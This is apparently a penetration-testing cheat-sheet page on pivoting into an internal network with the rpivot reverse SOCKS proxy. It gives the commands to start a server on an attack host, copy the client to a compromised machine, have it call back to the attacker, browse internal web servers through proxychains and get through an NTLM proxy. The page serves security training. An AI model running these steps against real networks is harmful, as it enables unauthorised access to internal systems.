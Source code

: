 ```yaml
---
description: A reverse SOCKS proxy tool written in Python for SOCKS tunneling
---
```


# Web Server Pivoting with Rpivot

Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.

**Cloning rpivot**

```shell-session
sudo git clone https://github.com/klsecservices/rpivot.git
```

> [https://github.com/lisp3r/rpivot2.git](https://github.com/lisp3r/rpivot2.git) for python3

**Running server.py from the Attack Host to connect to Pivot host.**

```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

we will need to transfer rpivot to the target.

**Transfering rpivot to the Target**

```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

**Running client.py from Pivot Target**

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

Configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

**Browsing to the Target Webserver using Proxychains**

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

**Connecting to a Web Server using HTTP-Proxy & NTLM Auth**

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```



